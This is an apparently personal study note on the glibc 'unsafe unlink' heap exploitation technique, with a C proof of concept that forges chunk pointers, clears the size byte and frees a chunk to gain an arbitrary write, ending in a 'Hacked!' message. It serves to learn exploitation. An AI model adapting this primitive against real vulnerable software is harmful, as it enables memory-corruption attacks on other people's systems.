 # Unsafe unlink
> LongChampion, 13/03/2020

The source code in this repository and an explantation at [Heap Exploitation](https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit.html) have descript all about this attack. So I will not try to make the description better here. Instead, I will write down some note about it:
- The size of chunk used in this attach must larger than MAX_FASTBIN_SIZE (0x80 on x64 system, 0x40 on x86 system)
- This is the fact that, field `pre_size` of the second chunk is belong to the first chunk, you can overwrite it freely.
- The `size` field of the second chunk is harder to control: it can't be directly access from both first chunk and second chunk. But we only want to set the last bit of `size` to zero, it can be easily done by an `off by one` error. However, in this case, the size of both chunk must be multiples of 0x100.
Look at my code:
```
#include <stdlib.h>
#include <unistd.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

const long long SIZE = 0xf0;

int main()
{
    char data[8] = "Hello!";
    void *first = malloc(SIZE);
    void *second = malloc(SIZE);

    struct Chunk *Fake = (struct Chunk *) first;
    Fake->fd = (struct Chunk *) (&first - 3);
    Fake->bk = (struct Chunk *) (&first - 2);

    struct Chunk *secondHeader = (struct Chunk *) (second - 2 * 8);
    secondHeader->pre_size = SIZE;
    secondHeader->size &= ~0xff;

    free(second);
    *(long long *) (first + 3 * 8) = (long long) &data;
    *(long long *) first = 0x0a2164656b636148;

    write(1, (char *) data, 8);
}
```
At this time, you can understand all the code above. I set `SIZE = 0xF0` so that when I call `malloc(SIZE)`, it will return a chunk of size 0x100. And when I clear the last byte of `size`:
> `secondHeader->size &= ~0xff;`

the `size` is changed from 0x101 to 0x100 (chunk size unchanged!)  
You can set `SIZE` to 0x1F0, 0x2F0, etc... and this code still print *Hacked!* to your screen.
